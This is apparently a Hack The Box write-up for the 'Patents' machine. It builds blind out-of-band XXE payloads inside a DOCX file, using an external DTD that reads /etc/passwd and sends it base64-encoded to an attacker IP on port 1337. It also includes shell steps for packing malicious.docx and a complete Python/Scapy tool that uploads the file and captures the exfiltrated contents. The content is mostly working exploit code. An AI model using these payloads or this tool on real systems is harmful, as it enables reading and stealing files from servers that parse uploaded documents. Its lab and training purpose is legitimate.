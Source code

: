 ```yaml
---
layout: post
title: "Playing with HTB{ Patents }"
date: 2020-05-16 19:00:00 +0300
author: snovvcrash
tags: [notes, hackthebox, machine, linux, docx, xxe, python, scapy]
---
```


Automate crafting malicious DOCX for blind XXE-OOB with external DTD using Python and Scapy.

<!--cut-->

<p align="right">
	<a href="https://www.hackthebox.eu/home/machines/profile/224"><img src="https://img.shields.io/badge/%e2%98%90-Hack%20The%20Box-8ac53e?style=flat-square" alt="htb-badge.svg" /></a>
	<span class="score-hard">7.8/10</span>
</p>

![banner.png](/assets/images/htb/machines/patents/banner.png)
{:.center-image}

![info.png](/assets/images/htb/machines/patents/info.png)
{:.center-image}

* TOC
{:toc}

# XXE

## Manual exploitation

### Way 1. General entity payload

`customXml/item1.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://10.10.15.131:1337/ext.dtd">
%xxe;
%ext;
]>
<foo>&exfil;</foo>
```

External file `ext.dtd` (hosted on local machine):

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % ext "<!ENTITY exfil SYSTEM 'http://10.10.15.131:1337/?x=%file;'>">
```

### Way 2. Parameter entity payload

`customXml/item1.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://10.10.15.131:1337/ext.dtd">
%xxe;
]>
<foo></foo>
```

External file `ext.dtd` (hosted on local machine):

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % ext "<!ENTITY &#x25; exfil SYSTEM 'http://10.10.15.131:1337/?x=%file;'>">
%ext;
%exfil;
```

### Malicious DOC/DOCX

Get `docx` sample and unpack it:

```
root@kali:$ curl https://file-examples.com/wp-content/uploads/2017/02/file-sample_100kB.docx > sample.docx
root@kali:$ unzip sample.docx
```

Create `customXml/` dir with a payload and pack it back:

```
root@kali:$ mkdir customXml
root@kali:$ vi customXml/item1.xml
...
root@kali:$ rm malicious.docx; zip -r malicious.docx '[Content_Types].xml' customXml/ docProps/ _rels/ word/
```

![manual-exploit-out-1.png](/assets/images/htb/machines/patents/manual-exploit-out-1.png)
{:.center-image}

![manual-exploit-out-2.png](/assets/images/htb/machines/patents/manual-exploit-out-2.png)
{:.center-image}

## Automate with Scapy

Scripting all the stuff to run simple HTTP server and Scapy HTTP sniffer in separate threads:

```python
#!/usr/bin/env python3

import re
import cmd
import socket
import fcntl
import struct
from base64 import b64decode
from threading import Thread
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

# http.server.BaseHTTPRequestHandler VS http.server.SimpleHTTPRequestHandler
# socketserver.TCPServer VS http.server.HTTPServer

import requests
from scapy.all import *

M = '\033[%s;35m'  # MAGENTA
S = '\033[0m'      # RESET

URL = 'http://patents.htb/convert.php'


class SilentHTTPRequestHandler(SimpleHTTPRequestHandler):
	"""
	https://stackoverflow.com/a/3389505/6253579
	https://stackoverflow.com/a/10651257/6253579
	"""

	def log_request(self, code='-', size='-'):
		return


class HTTPServerInThread(Thread):

	def __init__(self, address='0.0.0.0', port=1337):
		super().__init__()
		self.address = address
		self.port = port
		self.httpd = TCPServer((address, port), SilentHTTPRequestHandler)

	def run(self):
		print(f'[*] Serving HTTP on {self.address} port {self.port} (http://{self.address}:{self.port}/) ...')
		self.httpd.serve_forever()


class HTTPSniffer(Thread):

	def __init__(self, iface='tun0'):
		super().__init__()
		self.iface = iface
		self.re = re.compile(r'/\?x=(\S+)')

	def run(self):
		# Wireshark filter: "http.request.method == GET && tcp.port == 1337"
		sniff(iface=self.iface, filter='tcp dst port 1337', prn=self.process_http)

	def process_http(self, pkt):
		try:
			req_text = pkt[Raw].load.decode()
			if '/?x=' in req_text:
				contents_b64 = self.re.search(req_text).group(1)
				print(b64decode(contents_b64).decode())
		except IndexError:
			pass


class Default(dict):

	def __missing__(self, key):
		return '{' + key + '}'


class Terminal(cmd.Cmd):

	prompt = f'{M%0}XXE{S}> '

	def __init__(self, proxies=None):
		super().__init__()

		self.headers = {
			'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
			'Accept-Language': 'en-US,en;q=0.5',
			'Accept-Encoding': 'gzip, deflate'
		}

		self.ext_dtd = """\
			<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={filename}">
			<!ENTITY % ext "<!ENTITY &#x25; exfil SYSTEM 'http://{ip}:1337/?x=%file;'>">
			%ext;
			%exfil;
		""".replace('\t', '').format_map(Default({"ip": self._get_ip()}))

		if proxies:
			self.proxies = {'http': proxies}
		else:
			self.proxies = {}

	def do_file(self, filename):
		with open('/root/htb/boxes/patents/xxe/ext.dtd', 'w') as f:
			f.write(self.ext_dtd.format(filename=filename))

		files = {
			'userfile': ('test.docx', open('/root/htb/boxes/patents/xxe/docx/malicious.docx', 'rb'), 'application/vnd.openxmlformats-officedocument.wordprocessingml.document'),
			'submit': (None, 'Generate pdf')
		}

		resp = requests.post(URL, files=files)

	def do_EOF(self, args):
		print()
		return True

	def emptyline(self):
		pass

	def _get_ip(self, iface='tun0'):
		s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		return socket.inet_ntoa(fcntl.ioctl(
			s.fileno(),
			0x8915,  # SIOCGIFADDR
			struct.pack('256s', iface[:15].encode())
		)[20:24])


if __name__ == '__main__':
	server = HTTPServerInThread()
	server.daemon = True
	server.start()

	sniffer = HTTPSniffer()
	sniffer.daemon = True
	sniffer.start()

	Terminal().cmdloop()
```

![xxe-py-out.png](/assets/images/htb/machines/patents/xxe-py-out.png)
{:.center-image}

# Refs

* [What is a blind XXE attack? Tutorial & Examples / Web Security Academy](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)
* [Out-of-band XML External Entity (OOB-XXE) / Acunetix](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)
* [bh-eu-13-XML-data-osipov-slides.pdf](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)
* [XXE Attacks— Part 1: XML Basics - klose - Medium](https://medium.com/@klose7/https-medium-com-klose7-xxe-attacks-part-1-xml-basics-6fa803da9f26)
* [Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
* [Sample .doc and .docx download / File Examples Download](https://file-examples.com/index.php/sample-documents-download/sample-doc-download/)
* [c# - VSTO Word 2013 add in - Add Custom XML to document xml without it being visible on the page - Stack Overflow](https://stackoverflow.com/a/38797399/6253579)
* [python - How to quiet SimpleHTTPServer? - Stack Overflow](https://stackoverflow.com/a/10651257/6253579)
* [python - Leaving values blank if not passed in str.format - Stack Overflow](https://stackoverflow.com/a/19800610/6253579)
